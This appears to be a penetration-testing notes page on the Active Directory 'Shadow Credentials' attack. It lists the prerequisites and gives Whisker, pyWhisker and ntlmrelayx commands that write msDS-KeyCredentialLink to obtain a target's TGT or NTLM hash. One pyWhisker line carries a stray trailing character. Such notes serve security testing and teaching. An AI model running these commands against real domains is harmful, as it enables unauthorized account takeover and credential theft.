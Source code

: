 # Shadow Credentials

Before jumping into exploiting Shadow Credentials, I highly recommend reading the [article from SpecterOps](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) on shadow credentials.&#x20;

### **Prerequisites**&#x20;

There are three prerequisites for this attack to be performed:

* The ability to write to the `msDS-KeyCredentialLink` attribute on the target.&#x20;
* [AD CS must be configured.](ad-cs.md)
* A DC on the domain must be configured to support PKINIT.&#x20;

### Exploitation

After identifying a user account or machine account where the `msDS-KeyCredentialLink` attribute can be written to, [Whisker](https://github.com/eladshamir/Whisker) can be used to essentially automate the exploitation from a Windows machine:

```bash
# Generic usage of Whisker
Whisker.exe add /target:parzival

## https://github.com/ShutdownRepo/pywhisker
# Generic usage of PyWhisker
pywhisker.py -d $domain -u $user -p $password --target $target --action "list"x
```

Following running Whisker, it will provide a Rubeus command that can be executed in order to pull the targets TGT or NTLM hash.&#x20;

### Relaying

Ntlmrelayx also supports exploiting shadow credentials and can be used as follows:

```bash
# Relaying will work against either LDAP or LDAPS

# LDAPS
ntlmrelayx -t ldaps://parz-dc1 --shadow-credentials --shadow-target 'parz-dc2'

# LDAP
ntlmrelayx -t ldap://parz-dc1 --shadow-credentials --shadow-target 'parz-dc2'

## Failing to specify the --shadow-target will attempt to obtain a hash for the relayed user. 
ntlmrelayx -t ldap://parz-dc1 --shadow-credentials
```

### References

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials" %}

{% embed url="https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab" %}

{% embed url="https://pentestlab.blog/2022/02/07/shadow-credentials/" %}

